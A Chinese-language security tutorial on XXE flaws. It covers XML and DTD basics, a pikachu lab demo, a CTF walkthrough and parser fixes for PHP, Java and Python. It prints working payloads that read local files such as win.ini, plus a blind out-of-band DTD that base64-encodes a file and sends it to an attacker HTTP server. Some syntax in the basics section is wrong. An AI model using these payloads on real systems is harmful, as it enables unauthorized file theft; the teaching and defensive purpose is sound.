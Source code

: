 # XXE漏洞
## 什么是XXE？
XXE：XML External Entity 即外部实体，从安全角度理解成XML External Entity attack 外部实体注入攻击。在OWASP网站中对其的描述是：XXE是针对应用程序解析XML输入类型的攻击。当包含对外部实体的引用的 XML输入被弱配置的 XML 解析器处理时，就会发生这种攻击。程序在解析输入的XML数据时，解析了攻击者伪造的外部实体而产生。
## XML基础知识
XML用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型，是一种允许用户对自己的标记语言进行定义的源语言。XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。其实XML是一门可扩展标记语言（EXtensible Markup Language），类似于html，但是后来主要用xml的文档格式来传输数据，但是现在比较新的系统，大家之前传输数据用的是json了。现在很多语言里面对应的解析xml的函数默认是禁止解析外部实体内容的,从而也就直接避免了这个漏洞。
以PHP为例,在PHP里面解析xml用的是libxml,其在≥2.9.0的版本中,默认是禁止解析xml外部实体内容的。如果你测试用的php中解析xml用的libxml的版本大于了2.9.1，为了模拟漏洞,那么可以通过手动指定LIBXML_NOENT选项开启xml外部实体解析功能。
详细教程：https://www.w3school.com.cn/xml/xml_tree.asp
漏洞：
![](2024-01-25-15-55-36.png)
## 文档结构
简单了解即可，不需要细看，XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。
```
<?xml version=”1.0” encoding="gb2312" encoding=”UTF-8”?> //xml声明、版本、编码
<!DOCTYPE root system "http://www.XXXX.com/file"[ //定义DTD文件，格式为:root指定根节点名称，system声明要使用的外部DTD文件路径，后面加文件URL,注意[]包裹。
<!ELEMENT root (other)> // 元素声明，声明xml中包含的元素，声明中需要指定元素名称（root、other等）和元素类别、内容等
<!ELEMENT to (#PCDATA)> // <!--定义to元素为”#PCDATA”类型-->
<!ELEMENT generalentity "content" > //ELEMENT标签用于声明实体，关于实体的定义如下：“实体是用于定义引用普通文本或特殊字符的快捷方式的变量”实体是在DTD文件中定义的变量，xml解析器解析xml文件的时候，会将被的引用替换为实体内容，实体分为：预定义实体、普通实体、参数实体，此处定义了普通实体generalentity,内容为content
<!ELEMENT % extendentity SYSTEM "http://www.XXXX.com/file"> //定义参数实体，格式为：<!ELEMENT % 参数名称 参数内容>
引用格式：%参数名称
参数实体只能在DTD文件中引用，内部DTD文件的参数引用只能出现于DTD标签可出现的位置，外部DTD文件参数实体的引用可以出于DTD标签内容，比如:<!ELEMENT % "%another">
%extendentity; //引用参数外部实体
``` 
## DTD的基础知识
Document Type Definition 即文档类型定义，用来为XML文档定义语义约束。可以嵌入在XML文档中
(内部声明)，也可以独立的放在一个文件中(外部引用)，由于其支持的数据类型有限，无法对元素或属性的内容进行详细规范，在可读性和可扩展性方面也比不上XML Schema。
参考链接： http://www.w3school.com.cn/dtd/index.asp
对于安全人员来讲，就认识下面的几行代码即可。
首先了解下基本的PAYLOAD结构，然后再介绍每部分涉及的知识点，如下PAYLOAD开头进行了XML的
声明，然后使用DTD声明实体(这里使用了file协议)，最后使用XML获取实体的数据。
基本的PAYLOAD结构：
![](2024-01-25-16-18-46.png)
上面的fles:///etc/passwd，这是直接读取服务器的passwd文件内容。最后XML部分就是调用DTD的foo功能，也就是调用xxe，取出数据然后显示，基本上任何xxe的攻击代码都是这么几部分。
使用DTD实体的攻击方式 ：
DTD 引用方式(简要了解)：
1. DTD 内部声明
```
<!DOCTYPE 根元素 [元素声明]>
```
2. DTD 外部引用
```
<!DOCTYPE 根元素名称 SYSTEM "外部DTD的URI">
```
3. 引用公共DTD
```
<!DOCTYPE 根元素名称 PUBLIC "DTD标识名" "公用DTD的URI">
```
示例：
```
<?xml version="1.0"?>
<!DOCTYPE configuration PUBLIC "-//mybatis.org//DTD Config 3.0//EN"
"http://mybatis.org/dtd/mybatis-3-config.dtd">
......
命名方法：以!DOCTYPE开始,configuration是文档根元素名称；
PUBLIC表示是公共DTD；-表示是非ISO组织；mybatis.org表示组织；
DTD 表示类型；Config 表示标签；3.0是标签后附带的版本号；
EN表示DTD语言是英语；最后是DTD的URL；
```
## 示例
先看看phpinfo
![](2024-01-25-16-24-02.png)
phpstudy，我们使用的php版本中。libxml可能版本大于了2.9.1，所以我们切换一下php版本
然后看一下pikachu中的xxe_1.php源代码，这个文件中有xxe攻击payload示例代码，就下面这几句
![](2024-01-25-16-24-42.png)
对于用户提交的xml数据，负责接收和执行的代码也在上述文件中，下面的位置
![](2024-01-25-16-25-07.png)
pikachu测试一下
payload如下:而且你需要掌握的代码就这几行，大家最好能够背下来。
```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY f SYSTEM "file:///C://1.txt">
]>
<x>&f;</x>
```
先到目标主机创建一个1.txt文件
![](2024-01-25-16-35-21.png)
效果：
![](2024-01-25-16-36-01.png)
就这么几句代码就完成了渗透，网上好多人读取的是etc/passwd 文件内容，因为大家都知道这个文件
默认所在位置，并且只要读取出这个文件内容，那么就算是漏洞了，就可以提交了。
## 如何找XXE漏洞
![](2024-01-25-16-39-49.png)
1. 查看请求头
可以对pikachu的示例进行抓包，看效果
![](2024-01-25-16-42-43.png)
accept请求头里面最好能够接受xml
2. 抓包修改数据类型
这里我们看一个真实的ctf考试题示例，将json数据改为xml数据，完成xxe攻击
详细可见：https://xz.aliyun.com/t/3357
jarvisoj上的一道题目API调用
这道题的题目说明是 ：请设法获得目标机器/home/ctf/flag.txt中的flag值。
进入题目 http://web.jarvisoj.com:9882/ 发现一个输入框，我们对其进行抓包
![](2024-01-25-16-46-04.png)
是一个json数据提交，修改数据发现可以被解析，修改为xml
![](2024-01-25-16-47-55.png)
![](2024-01-25-16-50-40.png)
搞定
## XXE攻击情况
进行xxe攻击的时候，有两种情况：有回显和无回显
有回显就是请求有响应数据能看到
无回显就是看不到响应数据
![](2024-01-25-16-52-16.png)
分别用以下两个文件来演示一下这两种情况
![](2024-01-25-16-53-12.png)
1.有回显
这种的比较简单
payload如下
```
<?xml version = "1.0"?> <!DOCTYPE note [ <!ENTITY hacker SYSTEM
"file:///c:/windows/win.ini" > ]> <name>&hacker;</name>
```
效果
![](2024-01-25-19-56-12.png)
这种就属于有回显，直接将文件数据展示出来了。
2.无回显
没有信息返回，可以使用外带数据通道提取数据，先使用php://filter获取目标文件的内容，然后将内容以http请求发送到接受数据的服务器(攻击服务器)xxx.xxx.xxx。分如下两步
在此之前先查看是否开启日志记录功能，若未开启，打开httpd.conf文件打开日志记录，如下图：
![](2024-01-25-19-11-35.png)
然后重启phpstudy
a.建立*.dtd，比如我创建了一个test.dtd文件，内容如下，就放我我们上面目标主机的xxe2文件夹里面了。
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-
encode/resource=file:///c:/1.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.0.105:8080?
p=%file;'>">
这两句代码的意思是通过base64编码的方式读取文件内容，然后通过请求目标主机的ip地址加上一个不存在的路径或者参数数据，让它报错，%file就是用上面第一句获取到的数据
```
b.xml调用
```
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```
效果：保存信息里面就有我们要读取的文件数据
![](2024-01-25-20-06-06.png)
如果无报错的话，需要访问接收请求的服务器中的日志信息，可以看到经过base64编码过的数据，解码后便可以得到数据。
![](2024-01-25-20-09-32.png)
我们清楚第看到服务器端接收到了我们用 base64 编码后的敏感文件信息(编码也是为了不破坏原本的XML语法)，不编码会报错。
整个调用过程：
我们从 payload 中能看到连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send以后(因为实体的值中不能有 %, 所以将其转成html实体编码 % )，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。
## XXE漏洞修复与防御
1. 提高版本
2. 代码修复

PHP：
```
libxml_disable_entity_loader(true);
```
JAVA:
```
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
setFeature("http://apache.org/xml/features/disallow-doctype-decl",true);
setFeature("http://xml.org/sax/features/external-general-entities",false)
setFeature("http://xml.org/sax/features/external-parameter-entities",false);
```
Python:
```
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
3. 手动黑名单过滤（不推荐）
过滤关键词： <!DOCTYPE 、<!ENTITY SYSTEM 、PUBLIC
## XXE漏洞学习参考
参考地址：https://xz.aliyun.com/t/3357